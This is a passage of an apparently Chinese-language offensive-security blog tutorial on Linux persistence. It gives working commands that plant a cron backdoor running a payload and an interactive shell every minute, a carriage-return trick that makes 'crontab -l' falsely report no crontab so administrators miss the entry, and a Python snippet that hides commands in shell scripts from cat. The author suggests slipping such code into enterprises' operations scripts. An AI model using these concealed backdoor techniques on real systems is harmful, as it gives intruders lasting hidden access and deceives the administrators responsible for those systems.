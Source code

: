 ### 0x05 Cron 后门

在 Linux 系统中，计划任务一般是由 cron 承担，我们可以把 cron 设置为开机时自动启动。cron 启动后，它会读取它的所有配置文件（全局性配置文件 / etc/crontab，以及每个用户的计划任务配置文件），然后 cron 会根据命令和执行时间来按时来调用工作任务。

cron 表达式在线生成：[http://qqe2.com/cron](http://qqe2.com/cron)

```
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab -


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305213650119-595237820.png)

这样执行会在 crontab 列表里出现，如果是如上执行的话，管理员执行 crontab -l 就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示 "no crontab for root"。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示 "no crontab for root":

```
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214230870-387789665.png)

实际上是他将 cron 文件写到文件中, 而 crontab -l 就是列出了该文件的内容:

```
/var/spool/cron/crontabs/root


```

通常 cat 是看不到这个的，只能利用 less、vim 或者 cat -A 看到，这也是利用了 cat 的一个缺陷，在下一节会主要讲这个。

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214447271-1226946787.png)

```
#这几个路径都可以存放cron执行脚本,对应的时间不同
/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 


```

### 0x06 Cat 隐藏

刚刚在 cron 里面提到了 cat 的一个缺陷，可以利用这个缺陷隐藏恶意命令在一些脚本中：这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用 cat 的缺陷还可以使管理员无法发现脚本被做手脚。

cat 其实默认使用是支持一些比如 \r 回车符 \n 换行符 \f 换页符、也就是这些符号导致的能够隐藏命令。

使用 python 生成带有换行符的内容 sh：

```
cmd_h = "echo 'You forgot to check `cat -A`!' > oops" # hidden
cmd_v = "echo 'Hello world!'"                         # visible

with open("test.sh", "w") as f:
output = "#!/bin/sh\n"
output += cmd_h + ";" + cmd_v + " #\r" + cmd_v + " " * (len(cmd_h) + 3) + "\n"
f.write(output)


```
